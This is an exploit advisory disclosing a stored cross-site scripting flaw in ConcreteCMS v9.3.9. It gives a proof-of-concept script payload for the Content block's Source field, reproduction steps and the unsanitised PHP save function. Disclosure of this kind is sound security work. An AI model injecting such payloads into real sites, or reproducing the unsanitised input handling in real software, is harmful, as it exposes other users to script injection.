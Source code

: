# Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Source text field when adding a Content block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('source');</script>
```

1. Log in as a user with page editing privileges.
2. Click "add content to the page" in the top navigation.
3. Select the Content block , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Source text field and then click OK,the xss vulnerability appears.

Potentially problematic source code:
```php
public function save($args)
    {
        if (isset($args['content'])) {
            $args['content'] = LinkAbstractor::translateTo($args['content']);
        }
        parent::save($args);
    }
```